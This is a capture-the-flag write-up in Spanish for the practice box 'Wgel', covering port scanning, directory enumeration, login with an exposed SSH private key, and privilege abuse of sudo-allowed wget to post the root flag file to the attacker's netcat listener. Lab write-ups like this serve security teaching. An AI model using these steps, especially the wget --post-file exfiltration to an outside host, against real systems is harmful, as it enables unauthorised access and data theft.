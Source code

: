 # [Task 1] Wgel CTF 26/10/2019
Have fun with this easy box.
### Antes de nada scaneo
```
$ nmap -Pn -sT -p- -O -sC -sV -T5
```
<p>
Es scaner nos indica la existencia de dos puertos, 22 y 80. Abrimos navegador y nos vamos al servidor http. La conexión solo muestra la página de información de apache, pero si vemos el código fuente nos desvela la existencia del comentario:
<p>
 
```
!-- Jessie don't forget to udate the webiste -->
```

<p>
Pasamos a enumerar las páginas:
<p>
 
```
gobuster dir -u http://IP/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
```
<p>
Nos quedamos con el directorio sitemap y volvemos a enumerar.
<p>
 
 ```
gobuster dir -u http://IP/sitemap -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q 
 ```

<p>
Esta vez nos hemos encontrado con un directorio muy interesante  **/.ssh** Cuando nos conectamos a esa página vemos el fichero con la clave privada de ssh. Dado que sólo tenemos un usuario, probamos a conectarnos vía ssh al server. Antes de nada hay que cambiar los permisos al fichero.
 
 ```
 $ chmod 600 id_rsa
 $ ssh -i ./id_rsa jessie@ip
 ```
 Pasen, están en su casa :D
 La primera bandera a buscar es la de user_flag.txt, la cual está ubicada en .... home de ese user.
 
 La siguiente bandera es la de root. Lo primero de todo es saber lo que se puede hacer con ese usuario, 
 
 ```
 $ sudo -l -l
 
```
Podemos ejecutar /usr/bin/wget sin meter la clave. Pues adelante.
Para obtener el fichero root_flag.txt, abrimos un puerto en mi máguina local con un netcat y hacemos un post del fichero root a mi máquina.

```
En local
$ nc -lvnp 1234

En el server
sudo /usr/bin/wget --post-file=/root/root_flag.txt IP_Local:port
```

ya tenmeos la flag de root.
 
### #1	User flag<p>
### Solución:

```Answer format: 05****************************f6```


### #2	Root flag
 
Answer format: ********************************

